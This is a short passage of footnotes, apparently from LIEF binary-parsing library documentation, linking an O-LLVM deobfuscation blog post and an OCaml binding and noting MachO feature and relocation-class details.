[^3]: See the blog post about O-LLVM analysis: https://blog.quarkslab.com/deobfuscation-recovering-an-ollvm-protected-program.html
[^4]: This feature is not yet available for MachO objects
[^5]: Due to the inheritance relationship and abstraction these attributes are located in the MachO::Relocation and LIEF::Relocation objects.
[^6]: https://github.com/aziem/LIEF-ocaml
